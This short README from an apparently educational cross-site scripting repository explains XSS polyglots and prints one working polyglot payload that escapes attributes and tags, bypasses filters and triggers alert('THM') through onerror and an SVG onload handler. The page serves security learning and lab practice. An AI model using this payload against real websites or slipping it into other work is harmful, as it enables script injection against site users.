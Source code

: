 # Polyglots

- An XSS polyglot is a string of text which can escape attributes, tags and ***bypass filters all in one***. 

- You could have used the [below polyglot](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/16%20-%20XSS%20Polyglots/ployglot.js) on all [6 levels](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/11%20-%20Perfecting%20Your%20Payload) you've completed, and it would have executed the code successfully.

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
# Further Learnings

- For more detailed explanation of [XSS Polyglots](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot), go to [Further Learning](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/15%20-%20Further%20Learning)
